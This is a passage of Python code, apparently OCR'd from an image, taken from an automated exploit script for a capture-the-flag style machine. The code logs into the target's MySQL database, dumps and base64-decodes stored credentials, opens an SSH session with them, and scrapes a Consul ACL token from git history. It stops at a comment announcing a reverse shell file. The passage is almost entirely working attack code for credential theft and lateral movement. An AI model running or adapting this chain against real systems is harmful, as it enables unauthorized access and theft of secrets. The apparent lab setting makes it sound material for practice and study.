 ```python
		try:
			connection = connector.connect(host=self.target_host['ip_address'],
										   database='whackywidget',
										   user=self.target_credentials['mysql']['user'],
										   password=self.target_credentials['mysql']['pass'])

			if connection.is_connected():
				cursor = connection.cursor()

				query = 'SELECT user, pass from users'
				cursor.execute(query)

				username, b64_password = cursor.fetchone()

				# decode base64 password
				b64_bytes = b64_password.encode('ascii')
				msg_bytes = b64decode(b64_bytes)
				password = msg_bytes.decode('ascii').replace('\n', '')

				self.target_credentials['ssh']['user'] = username
				self.target_credentials['ssh']['pass'] = password

				log.success('SSH credentials -> {}:{}'.format(username, password)); time.sleep(1)

		except Exception as error:
			exit('\n[x] Error: %s' % error)
		finally:
			if connection.is_connected():
				cursor.close()
				connection.close()

	def ssh_connection(self, user, password):
		try:
			ssh_client = SSHClient()
			ssh_client.set_missing_host_key_policy(AutoAddPolicy())
			ssh_client.connect(self.target_host['ip_address'],
							   port=22,
							   username=user,
							   password=password)

			return ssh_client

		except Exception as error:
			exit('\n[x] Error: %s' % error)

	def get_consul_token(self, ssh_client):
		try:
			command = "cd /opt/my-app/ && git show" # path repository
			_stdin, _stdout, _stderr = ssh_client.exec_command(command)

			output = _stdout.read().decode('utf-8')
			token = findall(r'--token (.*?) ', output)[0]

			self.target_credentials['consul']['token'] = token

			log.success('Consul token -> {}'.format(token)); time.sleep(1)

		except Exception as error:
			exit('\n[x] Error %s:' % error)

	def prepare_files(self):
		# reverse shell file
```